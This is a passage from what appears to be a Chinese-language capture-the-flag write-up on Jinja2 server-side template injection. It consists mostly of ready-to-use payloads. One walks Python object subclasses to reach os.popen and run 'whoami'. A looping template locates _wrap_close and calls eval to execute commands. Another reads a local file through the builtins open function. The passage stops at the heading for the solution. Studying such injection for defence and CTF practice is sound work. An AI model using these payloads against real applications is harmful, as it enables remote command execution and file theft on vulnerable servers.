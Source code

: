 **payload**

```json
{{
	"".__class__.__bases__[0].__subclasses__()[80]
	.__init__.__globals__.
	__import__('os').popen('whoami').read()
}}
```

##### 4、利用循环构造payload

上面提到过 `{% for i in [1, 2, 3] %}Zh1z3ven{%endfor%}` 可用作循环。

我们改造下利用 `os._wrap_close` 类的 `['__builtins__']['eval']` 注入

```nginx
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```

**执行命令的payload**如下：

```nginx
这里有一个小坑点，比如：
	我们第一次if判断 if i.__name__ == '_wrap_close'时，
 	==右面不能写 os._wrap_close 而要写_wrap_close ,
    因为 __name__ 返回值是 _wrap_close
    
{% for i in "".__class__.__base__.__subclasses__() %}
    {% if i.__name__ == '_wrap_close' %}
      {% for x in i.__init__.__globals__.values() %}   
          {% if x.__class__ == {}.__class__ %}  # 筛选出dict类型元素
            {% if 'eval' in x.keys() %}  
                {{ x['eval']('__import__("os").popen("whoami").read()')}}
            {% endif %}
          {% endif %}
      {% endfor %}
    {% endif %}
{% endfor %}
```

**读取文件**

```php
{% for i in "".__class__.__base__.__subclasses__() %}
	{% if i.__name__ == '_wrap_close' %}		  
		{{
            i.__init__.__globals__['__builtins__'].
                open('C:\\Users\\LENOVO\\Desktop\\1.txt', 'r').readlines()
        }}
	{% endif %}
{% endfor %}
```

## 3、解题
